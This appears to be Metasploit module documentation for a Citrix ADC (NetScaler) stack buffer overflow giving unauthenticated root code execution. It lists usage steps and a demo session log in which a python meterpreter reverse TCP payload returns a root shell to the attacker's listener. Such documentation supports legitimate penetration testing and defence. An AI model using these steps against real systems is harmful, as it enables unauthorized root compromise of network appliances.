 ## Vulnerable Application

A vulnerability exists within Citrix ADC that allows an unauthenticated attacker to trigger a stack buffer overflow of
the nsppe process by making a specially crafted HTTP GET request. Successful exploitation results in remote code
execution as root.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix/formssso_target_Rce`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScalar VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > show options 

Module options (exploit/freebsd/http/citrix_formssso_target_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Citrix ADC 13.1-48.47



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (24768 bytes) to 192.168.159.30
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.30:36429) at 2023-07-31 17:34:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : cirtrix
OS           : FreeBSD 11.4-NETSCALER-13.1 FreeBSD 11.4-NETSCALER-13.1 #0 2596b10c4(rs_131_48_41_RTM): Sat Jun  3 00:57:48 PDT 2023     root@sjc-bld-bsd114-232:/usr/obj/usr/home/build/adc/usr.src/sys/NS64
Architecture : x64
Meterpreter  : python/freebsd
meterpreter > pwd
/
meterpreter > 
```
